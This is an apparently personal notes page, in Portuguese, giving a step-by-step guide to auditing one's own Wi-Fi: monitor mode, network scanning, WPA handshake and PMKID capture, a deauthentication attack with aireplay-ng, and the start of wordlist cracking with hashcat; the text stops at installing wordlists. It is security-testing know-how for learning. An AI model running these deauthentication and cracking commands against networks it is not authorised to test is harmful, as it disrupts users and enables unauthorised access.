

repository: EduardoCanda/second-brain · page: 03 - Deep Dives/Ciber segurança/Red Team/Attacks/Wifi Attack/index.html · generator: mkdocs

### 🧪 Guia Prático: Testando a Segurança do Seu Wi-Fi no Ubuntu

## 1⃣ Instalar Ferramentas Necessárias
	sudo apt update
	sudo apt install aircrack-ng crunch
	
---
### 2⃣ Identificar e Ativar Modo Monitor
###### Veja suas interfaces Wi-Fi:
	sudo airmon-ng

###### Ative o modo monitor (troque `wlan0` pelo nome da sua interface):
	sudo airmon-ng start wlan0

###### Confirme se entrou em modo monitor:
	iwconfig

Você deve ver `Mode: Monitor` para a interface.

---
### 3⃣ Escanear Redes Wi-Fi
###### troque `wlan0` pelo nome da sua interface e adicione `mon` no final:
	sudo airodump-ng wlan0mon

- **Anote:**
    - **BSSID** → MAC do seu roteador
    - **CH** → Canal usado
    - **ESSID** → Nome da rede

Pressione `CTRL+C` para parar.

---
### 4⃣ Capturar Handshake
###### Troque `[CANAL]` e `[BSSID]` pelos dados da sua rede:
	sudo airodump-ng -c [CANAL] --bssid [BSSID] -w captura lan0mon


Deixe rodando. Agora vamos gerar tráfego para forçar um cliente a se reconectar:

###### Em outro terminal:
	sudo aireplay-ng --deauth 5 -a [BSSID] wlan0mon

Quando o `airodump-ng` mostrar **WPA handshake** no topo da tela, você pode parar com `CTRL+C`.

Isso vai gerar um arquivo `captura-01.cap`.

### Capturar Handshake com PMKID + Hashcat
###### Caso não tenha a ferramenta instalada:
	sudo apt install hashcat hcxdumptool hcxpcapngtool

####### Use o `hcxdumptool` para pedir PMKID ao roteador:
	sudo hcxdumptool -i wlan0mon -o captura.pcapng --enable_status=1

- Deixe rodar por 30–60s para garantir que capture o PMKID.
- Depois pressione CTRL+C para parar.

###### Transforme o arquivo `.pcapng` em hash compatível:
	hcxpcapngtool -o hash.22000 captura.pcapng

###### Se der certo, você verá algo como:
	Written 1 PMKID(s) to hash.22000

---
### 5⃣ Quebrar a Senha

###### Use uma wordlist. O Kali vem com a famosa `rockyou.txt`, mas no Ubuntu você pode baixá-la:
	sudo apt install wordlists
